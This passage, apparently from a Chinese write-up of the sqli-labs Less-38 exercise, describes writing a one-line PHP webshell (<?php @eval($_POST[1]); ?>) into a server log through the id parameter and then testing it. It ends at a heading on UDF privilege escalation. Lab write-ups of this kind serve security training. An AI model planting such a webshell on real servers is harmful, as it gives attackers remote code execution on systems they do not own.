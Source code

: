 5. 执行`webshell`
    
    首先得在某一处输入一句马，让其写入日志，注意不要写错，写错了出现`error`就无法继续包含
    
    ```python
    Less-38/?id=<?php @eval($_POST[1]); ?>
    ```
    
    执行后我们到windows查看是否插入日志成功
    
    ![image.png](image%2014.png)
    
    看见成功写入后，我们去测试
    
    ![image.png](image%2015.png)
    

### UDF 提权
